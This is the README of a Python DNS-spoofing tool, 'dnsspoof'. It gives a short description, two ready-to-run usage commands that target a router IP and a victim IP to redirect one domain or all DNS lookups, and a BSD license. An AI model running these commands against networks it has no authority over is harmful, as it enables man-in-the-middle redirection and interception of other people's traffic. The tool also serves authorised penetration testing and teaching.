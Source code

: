 dnsspoof
========

DNS spoofer. Drops DNS responses before they hit the router then replaces them with the spoofed DNS response.

Usage
------

```shell
python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -d domaintospoof.com
```

Spoof domaintospoof.com to point back to the attack's machine.


```shell
python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -a -t 80.87.128.67
```

Spoof all DNS lookup requests to point to 80.87.128.67 (stallman.org). One can also use the -t option with the -d option to redirect just a specific domain to a specific IP rather than redirecting that domain to the attacker's machine.


License
-------

Copyright (c) 2013, Dan McInerney
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
* Neither the name of the Dan McInerney nor the names of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL <COPYRIGHT HOLDER> BE LIABLE FOR ANY
DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
(INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND
ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
(INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS
SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.


-------
danmcinerney.org
